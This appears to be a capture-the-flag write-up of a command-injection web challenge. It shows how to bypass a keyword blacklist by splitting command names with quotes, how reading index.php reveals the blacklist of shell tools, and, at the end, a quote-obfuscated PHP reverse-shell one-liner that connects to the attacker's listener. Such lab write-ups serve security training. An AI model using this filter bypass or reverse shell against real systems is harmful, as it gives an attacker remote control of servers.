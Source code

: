 ![2](https://github.com/Knign/Write-ups/assets/110326359/c8e6dd1c-7b17-4316-997d-9050bab2259c)

- As we can see this is the page where we can input commands.
- Let's pass the following command:
```
id
```

![3](https://github.com/Knign/Write-ups/assets/110326359/dafa46e1-192b-456e-9288-88e4a4d70f69)

- Looks like it worked.
- Let's list out the content of the directory:
```
ls -la
```

![4](https://github.com/Knign/Write-ups/assets/110326359/a2c5b764-7434-4989-855b-cb7f739f5b39)

- Ah so our command probably matched some black-list string and was filtered.
- We can try to bypass the filter using single quotes:
```
l's' -la
```

![5](https://github.com/Knign/Write-ups/assets/110326359/46fad622-1844-4848-995f-67d0ab7c1045)

- There is an `index.php` file. If we can manage to read it, we might be able to see how the black-list is implemented.
- Let's `cat` it out.
```
cat index.php
```

![6](https://github.com/Knign/Write-ups/assets/110326359/16cc8de2-4115-4bde-8b9b-7bc5c776de14)

- We can do the same bypass as before with single quotes:
```
c'a't index.php
```

![7](https://github.com/Knign/Write-ups/assets/110326359/6bdff5ec-45e6-4315-8db3-927d9d78e782)

- The layout looks different. That is because the `ìndex.php` file was read and executed.
- We can now check the source code using `CTRL+U`.

![8](https://github.com/Knign/Write-ups/assets/110326359/3f0ab7b7-0c6d-4b03-9da9-c6cda4600539)

- Now we know what pattern are being filterd.
```php
$blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
```
- Let's set up a `nc` listener.
```
$ nc -nlvp 9999
Listening on [any] 9999...
```
- Now we have to provide a PHP reverse shell:
```
p'h'p -r '$sock=fsockopen("10.17.48.138",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```

